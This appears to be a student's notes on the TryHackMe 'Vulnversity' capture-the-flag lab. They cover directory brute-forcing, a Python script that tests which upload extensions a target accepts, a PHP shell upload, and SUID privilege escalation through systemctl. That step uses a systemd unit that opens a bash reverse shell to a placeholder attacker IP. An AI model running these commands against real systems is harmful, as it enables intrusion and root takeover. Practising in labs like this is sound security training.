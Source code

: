 # TRY HACK ME NOTES
> LAB : Vulversity
1. Reconnaissance  : Search active services on target system, OS, Versions
2. Bruteforce directories using gobuster to find any vulnerable entry points
     - /internal/ allowed to upload files
  
3. Check what kind of files are allowed to upload or can we execute those files
     - Use Burp or python script
     - We can upload .phtml
4. Upload a phpshell to server
5. Start a netcat session for phpshell and gain a non-privileged access
6. Persorm Linux Privilege excalation using SUID
  - How to search for all binaries with SUID bit set
   -  find / -perm -u=s -type f 2>/dev/null
   -  Identify a binary with root as owner
   -  Use https://gtfobins.github.io/gtfobins/systemctl/ to find how to exploit
   -  Created root.service with code:
   -    [Unit]
        Description=root
        
        [Service]
        Type=simple
        User=root
        ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<Attacker-IP-Address>/4242 0>&1'
        
        [Install]
        WantedBy=multi-user.target
    - Hosted file using python server
    - downloaded file to /tmp on target using wget
    - start a listner on attcker machine
    - enabled and started the service
    - We get a root access

 ISSUES: 
 1. curly quote V/S straight quote in bash command.

 2. Python script used to enumerate file extension allowed to upload:
================================================================
```
import requests
import os

ip = "<Server Ip Address >"
url = f"http://{ip}:3333/internal/index.php"

original = "index.php"
filename = "index"
extensions = [".php", ".php3", ".php4", ".php5", ".phtml"]

for ext in extensions:
    new_filename = filename + ext
    os.rename(original, new_filename)

    with open(new_filename, "rb") as f:
        files = {"file": f}
        r = requests.post(url, files=files)


        if "Extension not allowed" in r.text:
            print(f"{ext} extension not allowed")
        else:
            print(f"{ext} seems to be allowed??")

    original = new_filename
os.rename(new_filename, "index.php")
```
===============================================================



